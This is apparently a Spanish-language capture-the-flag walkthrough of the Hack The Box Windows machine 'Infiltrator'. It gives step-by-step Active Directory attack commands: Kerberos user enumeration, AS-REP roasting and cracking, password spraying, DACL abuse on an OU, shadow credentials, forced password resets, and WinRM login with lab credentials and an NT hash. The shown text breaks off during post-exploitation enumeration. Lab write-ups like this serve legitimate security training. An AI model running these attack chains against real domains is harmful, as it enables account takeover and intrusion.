## Box Info

| Name                  | Infiltrator      | 
| :-------------------- | ---------------: |
| Release Date          | 31 Aug, 2024     |
| OS                    | Windows          |
| Rated Difficulty      | Insane           |


Lanzamos un ping para identificar si la maquina esta activa.



- Maquina Windows (ttl = 127)

- whatweb



## Recon

- Nmap

```python
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: Infiltrator.htb
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-06-15 23:36:41Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: infiltrator.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-06-15T23:38:22+00:00; -3h45m51s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.infiltrator.htb, DNS:infiltrator.htb, DNS:INFILTRATOR
| Not valid before: 2024-08-04T18:48:15
|_Not valid after:  2099-07-17T18:48:15
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: infiltrator.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.infiltrator.htb, DNS:infiltrator.htb, DNS:INFILTRATOR
| Not valid before: 2024-08-04T18:48:15
|_Not valid after:  2099-07-17T18:48:15
|_ssl-date: 2025-06-15T23:38:22+00:00; -3h45m50s from scanner time.
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: infiltrator.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-06-15T23:38:22+00:00; -3h45m51s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.infiltrator.htb, DNS:infiltrator.htb, DNS:INFILTRATOR
| Not valid before: 2024-08-04T18:48:15
|_Not valid after:  2099-07-17T18:48:15
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: infiltrator.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-06-15T23:38:22+00:00; -3h45m50s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.infiltrator.htb, DNS:infiltrator.htb, DNS:INFILTRATOR
| Not valid before: 2024-08-04T18:48:15
|_Not valid after:  2099-07-17T18:48:15
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: INFILTRATOR
|   NetBIOS_Domain_Name: INFILTRATOR
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: infiltrator.htb
|   DNS_Computer_Name: dc01.infiltrator.htb
|   DNS_Tree_Name: infiltrator.htb
|   Product_Version: 10.0.17763
|_  System_Time: 2025-06-15T23:37:37+00:00
| ssl-cert: Subject: commonName=dc01.infiltrator.htb
| Not valid before: 2025-06-03T14:17:24
|_Not valid after:  2025-12-03T14:17:24
|_ssl-date: 2025-06-15T23:38:22+00:00; -3h45m50s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49690/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49691/tcp open  msrpc         Microsoft Windows RPC
49696/tcp open  msrpc         Microsoft Windows RPC
49727/tcp open  msrpc         Microsoft Windows RPC
49756/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|

date: 2025-06-15T23:37:39
|_  start_date: N/A
|_clock-skew: mean: -3h45m51s, deviation: 2s, median: -3h45m51s
```

SMB - Port 445 LDAP - Port 389 RPC - Port 135 Kerberos - Port 88 DNS - Port 53:

```zsh
sudo echo "10.10.11.31 infiltrator.htb dc01.infiltrator.htb" | sudo tee -a /etc/hosts
```

- Web


Team de 7 miembros relacionados con el sitio web:

```
davin anderson
olivia martinez
kevin turner
amanda walker
marcus harris
lauren clark
ethan rodriguez
```

Scan SubDomains

```zsh
ffuf -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u "http://infiltrator.htb/" -H "Host: FUZZ.infiltrator.htb" -fs 31235
```

Desafortunadamente no encontramos ninguna subdominio.

Directory Brute Force

```zsh
feroxbuster -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -u "http://infiltrator.htb/" -x html --dont-extract-links
```



> Use la opcion --dont-extract-link para evitar el ruido (links irrelevantes)

- SMBv1 - Port 445

Con smb podemos obtener mayor informacion del dominio.

```zsh
nxc smb infiltrator.htb
```


Como en este caso nos muestra la version del servidor `Server 2019 Build 17763 x64`

```zsh
nxc smb infiltrator.htb --shares
```

El servicio smb esta habilitado pero necesitamos credenciales validas para listar los recursos compartidos.


## Shell as M.Harris

Con los 7 nombres que obtuvimos, podemos generar una lista de posibles nombres de usuario utilizando la herramienta **username-anarchy**

- Username-Anarchy

Generates different possible usernames

[Github - username-anarchy](https://github.com/urbanadventurer/username-anarchy)

```zsh
/opt/username-anarchy/username-anarchy -i users > usernames.txt
```

`head usernames.txt`

```r
davin
davinanderson
davin.anderson
davinand
daviande
davina
d.anderson
danderson
adavin
a.davin
...
```
### Kerbrute

Kerbrute para enumerar usuarios validos existentes en el dominio, es un ataque contra kerberos.

```zsh
kerbrute userenum -d infiltrator.htb usernames.txt --dc infiltrator.htb
```



Encontramos usuarios y al parecer se compone de la siguiente forma: {first inital name}.{last name}

```zsh
nxc smb infiltrator.htb -u usersenum -p '' --shares
```



## KRB_AS_REP Roasting

Identificar usuarios sin autenticación previa de Kerberos (UF_DONT_REQUIRE_PREAUTH). Esto permite solicitar un **TGT (Ticket Granting Ticket)** sin proporcionar credenciales previamente..

```zsh
/usr/share/doc/python3-impacket/examples/GetNPUsers.py  infiltrator.htb/ -dc-ip 10.10.11.31  -usersfile usersenum
```



>L. Clark tiene deshabilitada la autenticación previa de Kerberos y podemos obtener el hash AS-REP de **Kerberos 5 AS-REP hash (AES-256 or RC4)**.

### John The Ripper

```zsh
john hash -w=/usr/share/wordlists/rockyou.txt
```

```r
WAT?watismypass! ($krb5asrep$23$l.clark@INFILTRATOR.HTB)
```



### Validate Password

```zsh
nxc smb infiltrator.htb -u l.clark -p 'WAT?watismypass!' --shares
```



Este usuarios si puede listar archivos compartidos dentro del dominio.



Intente validar la contraseña con evil-winrm pero no funciona, pero con rdp funciona

```zsh
nxc rdp infiltrator.htb -u l.clark -p 'WAT?watismypass!' --shares
```



## Auth as D.Anderson

### User Enumeration

Con esto podremos seguir enumerando mas usuarios dentro del dominio.

```zsh
rpcclient -U 'l.clark%WAT?watismypass!' 10.10.11.31 -c 'enumdomusers' | grep -oP '\[.*?\]' | grep -v "0x" | tr -d '[]'
```

```r
D.anderson
L.clark
M.harris
O.martinez
A.walker
K.turner
E.rodriguez
winrm_svc
lan_managment
```

```zsh
rpcclient -U 'l.clark%WAT?watismypass!' 10.10.11.31 -c 'querydispinfo'
```



K.Tuner tiene la contraseña en la descripcion de LDAP, pero no funciona para el usuario.

```r
K.turner : MessengerApp@Pass!
```

```zsh
nxc smb infiltrator.htb -u 'K.turner' -p 'MessengerApp@Pass!' --shares
```

```zsh
SMB         10.10.11.31     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\K.turner:MessengerApp@Pass! STATUS_LOGON_FAILURE 
```
### Password Sprying

```zsh
netexec smb infiltrator.htb -u userslist -p passwords --continue-on-success
```



`sudo ntpdate 10.10.11.31`



```r
D.anderson : WAT?watismypass!
```

- Usé el indicador -k para autenticarme con el controlador de dominio (DC) mediante tickets Kerberos en lugar de hacerlo directamente a través del servicio SMB. Esto resulta útil para eludir ciertas restricciones o políticas. Kerberos puede ignorar algunas restricciones (como LogonWorkstations) porque el DC valida el ticket.

https://blog.whiteflag.io/blog/protected-users-you-thought-you-were-safe/

```zsh
nxc smb infiltrator.htb -u 'd.anderson' -p 'WAT?watismypass!' --shares -k
```


Nada interesante en SMB

### BloodHound

```zsh
bloodhound-python -d infiltrator.htb -u l.clark -p 'WAT?watismypass!' -ns 10.10.11.31 --zip -c All
```




## Auth as E.Rodriguez

D. Anderson tiene genericAll en Marketing Digital (OU). Una OU permite agrupar y administrar usuarios (y equipos, entre otros objetos) dentro de Active Directory. Permite a los administradores especificar que todos los usuarios de esta área específica deben tener estos permisos.

[OUned.py Exploiting hidden Organizational Units ACL attack verctors in Active Directory](https://www.synacktiv.com/en/publications/ounedpy-exploiting-hidden-organizational-units-acl-attack-vectors-in-active-directory)

- Modify OU

```zsh
sudo /usr/share/doc/python3-impacket/examples/dacledit.py -action write -rights FullControl -inheritance -principal d.anderson -target-dn "OU=MARKETING DIGITAL,DC=INFILTRATOR,DC=HTB" 'infiltrator.htb/d.anderson:WAT?watismypass!'
```



- Ticket with Kerberos

```zsh
/usr/share/doc/python3-impacket/examples/getTGT.py 'infiltrator.htb/d.anderson:WAT?watismypass!' -dc-ip infiltrator.htb
```



- **Kerberos Credential Cache(KRB5CCNAME)**

```zsh
KRB5CCNAME=d.anderson.ccache /usr/share/doc/python3-impacket/examples/dacledit.py -action write -rights FullControl -inheritance -principal d.anderson -target-dn "OU=MARKETING DIGITAL,DC=INFILTRATOR,DC=HTB" 'infiltrator.htb/d.anderson' -k -no-pass -dc-ip infiltrator.htb
```



## Shadow Credential

```zsh
KRB5CCNAME=d.anderson.ccache certipy-ad shadow auto -k -target dc01.infiltrator.htb -account e.rodriguez
```



> tip: Necesita ejecutar el comando anterior y el actual para obtener el ccache y el hash nt.


```zsh
KRB5CCNAME=e.rodriguez.ccache nxc smb infiltrator.htb --use-kcache
```



Se utilizó el caché de credenciales para validar con netexec y funciono.

```zsh
nxc smb infiltrator.htb -u 'r.rodriguez' -H 'b02e97f2fdb5c3d36f77375383449e56'
```



¡También con NT Hash para validar con netexec y funciona también!

## Auth as M.Harris



https://www.thehacker.recipes/ad/movement/dacl/addmember
### Add Memeber to Chiefs Marketing

```zsh
bloodyAD --dc-ip "10.10.11.31" -d "infiltrator.htb" -u 'e.rodriguez' -p ':b02e97f2fdb5c3d36f77375383449e56' add groupMember "CHIEFS MARKETING" "e.rodriguez"
```



Utilizamos el mismo comando con el ticket de kerberos.

```zsh
KRB5CCNAME=e.rodriguez.ccache bloodyAD -u e.rodriguez -k --host dc01.infiltrator.htb -d infiltrator.htb add groupMember "CHIEFS MARKETING" e.rodriguez
```

### Force Change Password M.Harris



```zsh
bloodyAD -u e.rodriguez -p ':b02e97f2fdb5c3d36f77375383449e56' --host dc01.infiltrator.htb -d infiltrator.htb set password m.harris 'P@ssword123!'
```



```zsh
nxc winrm infiltrator.htb -u m.harris -p 'P@ssword123!'
```

-M.Harris tiene las mismas restricciones que D.Anderson



También con changepasswd.py de impackets podemos cambiar la contraseña.

```zsh
/usr/share/doc/python3-impacket/examples/changepasswd.py infiltrator.htb/m.harris@dc01.infiltrator.htb -althash :b02e97f2fdb5c3d36f77375383449e56 -reset -dc-ip dc01.infiltrator.htb -newpass 'P@ssword123!' -altuser e.rodriguez
```



 - Get TGT

```zsh
/usr/share/doc/python3-impacket/examples/getTGT.py 'infiltrator.htb/m.harris:P@ssword123!' -dc-ip infiltrator.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Kerberos SessionError: KDC_ERR_ETYPE_NOSUPP(KDC has no support for encryption type)
```

La contraseña cambia, pero al final aparece una advertencia que indica que las claves AES de Kerberos son incorrectas. El uso de Kerberos fallará con `KDC_ERR_ETYPE_NOSUPP`:

```zsh
/usr/share/doc/python3-impacket/examples/changepasswd.py infiltrator.htb/m.harris@dc01.infiltrator.htb -althash :b02e97f2fdb5c3d36f77375383449e56 -reset -dc-ip dc01.infiltrator.htb -newpass 'P@ssword123!' -altuser e.rodriguez -p ldap
```



- Utilicé el indicador ``-p ldap`` para forzar el uso del protocolo LDAP (en lugar de Kerberos) para cambiar la contraseña.

```zsh
/usr/share/doc/python3-impacket/examples/getTGT.py 'infiltrator.htb/m.harris:P@ssword123!' -dc-ip infiltrator.htb
```



- Nos conectamos a traves de winrm con el KRB5CCNAME.

```zsh
KRB5CCNAME=m.harris.ccache evil-winrm -i dc01.infiltrator.htb -r infiltrator
```



Aqui necesitamos configurar nuestro /etc/krb5.conf

```zsh
[libdefaults]
    dns_lookup_kdc = false
    dns_lookup_realm = false
    default_realm = INFILTRATOR.HTB

[realms]
    INFILTRATOR.HTB = {
        kdc = dc01.infiltrator.htb
        admin_server = dc01.infiltrator.htb
        default_domain = infiltrator.htb
    }

[domain_realm]
    .infiltrator.htb = INFILTRATOR.HTB
    infiltrator.htb = INFILTRATOR.HTB
```



## Shell as WINRM_SVC

- Enumeration



``whoami /priv`` (No disponen de ningun privilegio interesante que podamos explotar)



- Programs



```powershell
$nets = netstat -ano | select-string LISTENING; foreach($n in $nets){ $p = $n -replace ' +',' '; $nar = $p.Split(' '); $pname = $(Get-Process -id $nar[-1]).ProcessName; $ppath = $(Get-Process -id $nar[-1]).Path; $n -replace "$($nar[-1])","$($ppath) $($pname)" }
```

```r
TCP    0.0.0.0:80             0.0.0.0:0              LISTENING        System
  TCP    0.0.0.0:88             0.0.0.0:0              LISTENING        lsass
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING        svchost
  TCP    0.0.0.0:389            0.0.0.0:0              LISTENING        lsass
  TCP    0.0.0.0: System System5            0.0.0.0:0              LISTENING        System
  TCP    0.0.0.0:464            0.0.0.0:0              LISTENING        lsass
  TCP    0.0.0.0:593            0.0.0.0:0              LISTENING        svchost
  TCP    0.0.0.0:636            0.0.0.0:0              LISTENING        lsass
  TCP    0.0.0.0:3268           0.0.0.0:0              LISTENING        lsass
  TCP    0.0.0.0:3269           0.0.0.0:0              LISTENING        lsass
  TCP    0.0.0.0:3389           0.0.0.0:0              LISTENING        svchost
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING        System
  TCP    0.0.0.0:9389           0.0.0.0:0              LISTENING        Microsoft.ActiveDirectory.WebServices
  TCP    0.0.0.0:14118          0.0.0.0:0              LISTENING        OMServerService
  TCP    0.0.0.0:14119          0.0.0.0:0              LISTENING        OMServerService
  TCP    0.0.0.0:14121          0.0.0.0:0              LISTENING        OMServerService
  TCP    0.0.0.0:14122          0.0.0.0:0              LISTENING        OMServerService
  TCP    0.0.0.0:1 System123          0.0.0.0:0              LISTENING        System
  TCP    0.0.0.0:1 System125          0.0.0.0:0              LISTENING        System
  TCP    0.0.0.0:14126          0.0.0.0:0              LISTENING        outputmessenger_httpd
  TCP    0.0.0.0:14127          0.0.0.0:0              LISTENING        OMServerService
  TCP    0.0.0.0:14128          0.0.0.0:0              LISTENING        OMServerService
  TCP    0.0.0.0:14130          0.0.0.0:0              LISTENING        OMServerService
  TCP    0.0.0.0:14406          0.0.0.0:0              LISTENING        outputmessenger_mysqld
  TCP    0.0.0.0: System7001          0.0.0.0:0              LISTENING        System
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING        wininit
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING        svchost
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING        svchost
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING        lsass
  TCP    0.0.0.0:49669          0.0.0.0:0              LISTENING        svchost
  TCP    0.0.0.0:49690          0.0.0.0:0              LISTENING        lsass
  TCP    0.0.0.0:49691          0.0.0.0:0              LISTENING        lsass
  TCP    0.0.0.0:49696          0.0.0.0:0              LISTENING        lsass
  TCP    0.0.0.0:49717          0.0.0.0:0              LISTENING        services
  TCP    0.0.0.0:49727          0.0.0.0:0              LISTENING        dns
  TCP    0.0.0.0:49756          0.0.0.0:0              LISTENING        certsrv
  TCP    0.0.0.0:49868          0.0.0.0:0              LISTENING        dfsrs
  TCP    10.10.11.31:53         0.0.0.0:0              LISTENING        dns
  TCP    10.10.11.31:139        0.0.0.0:0              LISTENING        System
  TCP    10.10.11.31:15220      0.0.0.0:0              LISTENING        OutputMessenger
  TCP    10.10.11.31:15230      0.0.0.0:0              LISTENING        OutputMessenger
  TCP    127.0.0.1:53           0.0.0.0:0              LISTENING        dns
  TCP    [::]:80                [::]:0                 LISTENING        System
  TCP    [::]:88                [::]:0                 LISTENING        lsass
